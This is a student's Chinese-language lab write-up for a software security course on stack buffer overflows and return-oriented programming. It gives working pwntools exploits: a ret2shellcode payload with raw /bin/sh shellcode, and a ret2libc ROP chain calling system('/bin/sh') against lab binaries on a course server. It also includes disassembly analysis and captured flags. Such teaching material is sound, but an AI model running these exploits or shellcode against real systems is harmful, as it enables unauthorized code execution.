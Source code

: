 # lab01-缓冲区溢出

## 栈上缓冲区溢出

### Task 1

#### 请阅读 sbof1.c 和 example.py，关注脚本中：

- 学会使用 pwntools 中的 ELF，其可以方便的辅助得到代码下符号的地址、字符串地址、GOT 表等信息
- 学会根据读汇编代码理解如何计算缓冲区长度以及如何覆盖返回地址的

好的,我已经阅读了您提供的代码文件。根据您的要求,我将用中文回复并重点关注您提到的几个方面:

1. 使用 pwntools 中的 ELF:

```python:cs144/SSecAnyaZJU/lab-01/sbof/example.py
binary = ELF("./sbof1") # 分析目标程序
target_code_addr = binary.symbols["target_code"]
```

使用 ELF 类来分析目标程序,并通过 `binary.symbols["target_code"]` 获取 `target_code` 函数的地址。

2. 通过汇编代码理解缓冲区长度和返回地址覆盖:

- 栈帧大小为 0x50 (`sub rsp,0x50`)
- 缓冲区从 [rbp - 0x50] 开始,到 [rbp - 0x10] 结束
- len 变量位于 [rbp - 0x4]
- 需要额外 0x18 字节来覆盖返回地址

根据这些信息,payload 的构造如下:

```python:cs144/SSecAnyaZJU/lab-01/sbof/example.py
payload = b""
payload += b"A" * 0x40  # 1. 填充原始缓冲区
payload += b"B" * 0x10  # 2. 填充剩余空间
payload += b"C" * 0x8   # 3. 填充帧指针
payload += p64(target_code_addr)    # 4. 填充返回地址
payload = payload + b"D" * (128 - len(payload)) # 5. 填充剩余空间
```

#### 实践：

请阅读 sbof2.c，并在理解 example.py 的基础上编写攻击代码，实现 ret2shellcode 攻击的本地测试和远程测试，该服务暴露在：

IP: `8.154.20.109`, PORT: `10101`

请截图证明远程成功拿 shell，并将攻击代码以附件形式提交 (下图为获取到 flag 的截图示例)

`llvm-objdump -d sbof2` 的输出与分析：

```arm-asm 
0000000000401205 <main>:
  401205: f3 0f 1e fa                  	endbr64
  401209: 55                           	pushq	%rbp
  40120a: 48 89 e5                     	movq	%rsp, %rbp
  40120d: 48 81 ec 10 01 00 00         	subq	$0x110, %rsp            # imm = 0x110
  401214: 89 bd fc fe ff ff            	movl	%edi, -0x104(%rbp)
  40121a: 48 89 b5 f0 fe ff ff         	movq	%rsi, -0x110(%rbp)
  401221: b8 00 00 00 00               	movl	$0x0, %eax
  401226: e8 6b ff ff ff               	callq	0x401196 <prepare>
  40122b: 48 8d 85 00 ff ff ff         	leaq	-0x100(%rbp), %rax
  401232: 48 89 c6                     	movq	%rax, %rsi
  401235: bf 04 20 40 00               	movl	$0x402004, %edi         # imm = 0x402004
  40123a: b8 00 00 00 00               	movl	$0x0, %eax
  40123f: e8 2c fe ff ff               	callq	0x401070 <.plt.sec>
  401244: 48 8d 85 00 ff ff ff         	leaq	-0x100(%rbp), %rax
  40124b: 48 89 c7                     	movq	%rax, %rdi
  40124e: b8 00 00 00 00               	movl	$0x0, %eax
  401253: e8 38 fe ff ff               	callq	0x401090 <.plt.sec+0x20>
  401258: b8 00 00 00 00               	movl	$0x0, %eax
  40125d: c9                           	leave
  40125e: c3                           	retq
```

- 栈帧大小为 0x110 (`subq $0x110, %rsp`)
- 缓冲区从 [rbp - 0x100] 开始
- 覆盖返回地址为缓冲区的起始地址


payload 的构造如下:

- 首先放入 shellcode
- 填充剩余的缓冲区空间，大小为 `0x100 + 8 - len(shellcode)`
- 覆盖返回地址为缓冲区的起始地址

```python
from pwn import *

context.log_level = 'DEBUG'  # 设置调试日志级别

# 定义shellcode，这里使用一个简单的执行 /bin/sh 的shellcode
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

p = process("./sbof2")  # 加载目标程序
# p = remote("8.154.20.109", 10100)

# 接收程序输出的缓冲区地址
p.recvuntil(b"gift address: ")
buffer_addr = int(p.recvline().strip(), 16)

print(f"Buffer address: {hex(buffer_addr)}")

# 构造payload
payload = shellcode  # 首先放入shellcode
payload += b"A" * (0x100 + 8 - len(shellcode))  # 填充剩余的缓冲区空间
payload += p64(buffer_addr)  # 覆盖返回地址为缓冲区的起始地址

# 发送payload
p.sendline(payload)

# 获取shell
p.interactive()
```

![](img/3220103784-林子昕-lab01/image.png)

尝试连接远程，发现需要输入学生 ID，修改代码，使用 `p.sendline(b"3220103784")` 。

![alt text](img/3220103784-林子昕-lab01/image-1.png)

得到 flag：`ssec2024{m4G1c_5taCk_bUFf3r_0v3rf1ow|28a3ceb6}`

![alt text](img/3220103784-林子昕-lab01/image-2.png)

## ROP: Return-Oriented-Programming

> 请阅读 rop1.c 和 example.py，关注脚本中：
- rop1.c 的攻击和 rop2.c 的攻击有何区别
- 学会使用 pwntools 的 rop API，让 payload 的构造事半功倍
- 注：也可以使用 ROPGadget 等工具，更加定制化的选择 gadgets

```python:Documents/SSecAnyaZJU/lab-01/rop/example.py
rop(rdi = 0x7373656332303234)   # 设置 rdi 寄存器的值
rop.raw(target_code_addr)       # 添加 target_code 函数的地址
payload += rop.chain()
payload = payload + b"B" * (128 - len(payload)) # 填充
```


1. `rop(rdi = 0x7373656332303234)`:
   - 这行代码使用 pwntools 的 ROP API 来设置 rdi 寄存器的值。
   - 在 x86-64 架构中,rdi 寄存器通常用于存放函数的第一个参数。
   - pwntools 会自动寻找合适的 gadget 来将这个值放入 rdi 寄存器。

2. `rop.raw(target_code_addr)`:
   - 这行代码将 target_code 函数的地址直接添加到 ROP 链中。
   - 这意味着在设置 rdi 寄存器后,程序将跳转到 target_code 函数。

3. `payload += rop.chain()`:
   - 这行代码生成完整的 ROP 链,并将其添加到 payload 中。
   - rop.chain() 会返回一个字节串,包含所有必要的地址和 gadgets。

4. `payload = payload + b"B" * (128 - len(payload))`:
   - 这行代码进行填充,确保 payload 的总长度为 128 字节。
   - 使用 "B" 字符填充剩余空间。
   - 这是为了确保 payload 的长度符合程序的输入要求。



### Task 2

实践 - 1
请阅读 rop2.c，并在理解 example.py 的基础上编写攻击代码，实现 ret2libc 攻击的本地测试和远程测试，该服务暴露在：

IP: 8.154.20.109, PORT: 10101

1. 使用 pwntools 的 ROP 类来构造 ROP 链，但出现段错误

```python
payload = b""
payload += b"A" * (0x50 + 8)

rop.raw(target_code_addr)       # gadgets that will return to target function
payload += rop.chain()          # generate full rop chain
payload = payload + b"B" * (128 - len(payload)) # padding
```

2. 解决段错误,将 ret 指令的地址添加到 ROP 链中，用于调整栈对齐，成功执行到 `/bin/ls`
   > 分析段错误可能出现的原因：a. 栈对齐问题；b. target_code 函数的参数设置；c. 程序的保护机制

添加 ret 指令的地址，用于调整栈对齐。

```python
ret_addr = rop.find_gadget(['ret'])[0]
rop.raw(ret_addr)
```

```bash
[*] Switching to interactive mode
[DEBUG] Received 0x49 bytes:
    b'example.py  Makefile  my_exp2.py  rop1\trop1.c\trop2  rop2.c  rop3  rop3.c\n'
example.py  Makefile  my_exp2.py  rop1  rop1.c  rop2  rop2.c  rop3  rop3.c
```

3. 在这个漏洞利用中，目标不是执行 target_code 函数。目标 ROP：调用 system("/bin/sh")。

- 首先使用 pop rdi gadget 将 binsh_code_addr（指向 "/bin/sh" 字符串的地址）放入 rdi 寄存器。
- 然后调用 system 函数，传入 rdi 中的参数。

```diff
- target_code_addr = binary.symbols["target_code"]
+binsh_code_addr = binary.symbols["gstr"]
+system_addr = binary.symbols["system"]

payload = b""
payload += b"A" * (0x50 + 8)

ret_addr = rop.find_gadget(['ret'])[0]
+ pop_rdi = rop.find_gadget(['pop rdi'])[0]

# 构造ROP链
+ rop.raw(pop_rdi)
+ rop.raw(binsh_code_addr)
rop.raw(ret_addr)
- rop.row(target_code_addr)
+ rop.raw(system_addr)
```

远端测试，得到 flag：`ssec2023{r0p_bAs1c_biNarY|edf1d3c1}`

![alt text](img/3220103784-林子昕-lab01/image-3.png)

### Task 3

实践 - 2
请阅读 rop3.c，并在理解上述攻击的基础上编写攻击代码，完成栈迁移操作，并最终实现弹 shell 攻击的本地测试和远程测试，该服务暴露在：

IP: 8.154.20.109, PORT: 10102
